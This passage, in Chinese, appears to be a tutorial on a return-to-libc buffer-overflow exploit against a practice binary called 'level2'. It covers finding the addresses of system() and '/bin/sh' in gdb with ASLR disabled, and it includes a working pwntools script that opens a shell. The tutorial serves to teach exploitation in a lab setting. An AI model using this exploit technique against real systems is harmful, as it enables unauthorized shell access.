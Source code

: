 每个程序都会调用函数库``libc.so``，而shellcode的执行效果等于``system("/bin/sh")``，问题就是如何获得system和"/bin/sh"的地址。

我们关闭了系统的ASLR，函数在内存的地址不会变换，字符串也是固定的。这时可以使用gdb进行调试，通过``print``和``find``命令查找。

gdb打开后，首先在main函数上打下断点，然后运行程序，让libc.so函数加载到内存中。使用``print system``获取system函数的真实地址；使用``print __libc_start_main``获取libc.so起始地址。使用``find [起始地址],[+搜索长度],[字符串]``获取"/bin/sh"内存地址。

```shell
$ gdb level2
'''
gef➤  b main
Breakpoint 1 at 0x8048430
gef➤  r
Starting program: /home/skye/rop/level2/level2
Breakpoint 1, 0x08048430 in main ()
gef➤  print system
$1 = {int (const char *)} 0xf7e19200 <__libc_system>
gef➤  print __libc_start_main
$2 = {int (int (*)(int, char **, char **), int, char **, int (*)(int, char **, char **), void (*)(void), void (*)(void), void *)} 0xf7df4d90 <__libc_start_main>
gef➤  find 0xf7df4d90,+2200000,"/bin/sh"
0xf7f5a0cf
warning: Unable to access 16000 bytes of target memory at 0xf7fb7cd7, halting search.
1 pattern found.
```

本地EXP

> 函数、gadget等地址，可能因电脑不同而不一致。请动手操作，获取本机相关地址后，自行替换

```python
#coding:utf-8
from pwn import *

context.log_level = 'debug'
p = process("./level2")

system_addr = 0xf7e19200
binsh_addr = 0xf7f5a0cf
ret = 0xdeadbeef

payload = 'a'*140 + p32(system_addr) + p32(ret) + p32(binsh_addr)

p.send(payload)
p.interactive()
```



### level 2  - 通过 ROP 绕过 DEP 和 ASLR 防护

打开ALSR保护：

```shell
sudo -s
echo 2 > /proc/sys/kernel/randomize_va_space
```
